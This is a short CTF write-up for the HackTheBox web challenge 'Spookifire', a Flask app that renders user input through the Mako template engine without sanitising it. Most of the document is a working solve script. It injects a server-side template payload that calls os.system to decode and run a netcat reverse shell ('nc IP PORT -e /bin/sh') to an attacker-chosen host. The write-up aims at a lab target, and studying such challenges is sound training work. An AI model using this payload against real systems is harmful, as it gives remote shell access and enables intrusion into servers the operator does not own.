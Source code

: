 ```yaml
---
title: Spookifire
date: 2023-12-09 15:53:16 +0800
categories: [Hackthebox-Challenges, spookifire]
tags: [htb, ctf, pentesting, web, code-auditing]
---
```



<img src="../../assets/global/banner.png" alt="banner image">

## Spookifire is a python flask chalenge on Hackthebox

### Description:

Simply this challenge takes user input a print it different fornts
but the problem is it doesn't do any sanitizing and it passes the payload to Mako tamplete Engine to be rendered.

### Vulnerable code:
```python
from mako.template import Template
```

```html
    <tbody>
        ${output}
    </tbody>

```

### Solve:

```python
import base64
import requests
import argparse
 
 

def solve(revshell_ip, revshell_port):
	url = 'http://localhost:1337/'

	rev = f"nc {revshell_ip} {revshell_port} -e /bin/sh"	
	payload = base64.b64encode(rev.encode('utf-8'))
	params = {
		'text': f'${{self.module.runtime.util.os.system("echo {str(payload, "utf-8")} | base64 -d| sh")}}'
	}
 
	print('\n')
	print(params)
	print('\n')
	try:
		response = requests.get(url, params=params)
		if response.status_code == 200:
			print("Request successful!")
			# print("Response:", response.text)
		else:
			print(f"Request failed with status code: {response.status_code}")
	except requests.RequestException as e:
		print(f"Request failed: {e}")

if __name__ == '__main__':
    parser = argparse.ArgumentParser(description='Enter your ip and port to get reverse shell.')
    parser.add_argument('ip', type=str, help='ip to get reverse shell')
    parser.add_argument('port', type=str, help='port to get reverse shell')
    args = parser.parse_args()
    solve(args.ip, args.port)

```







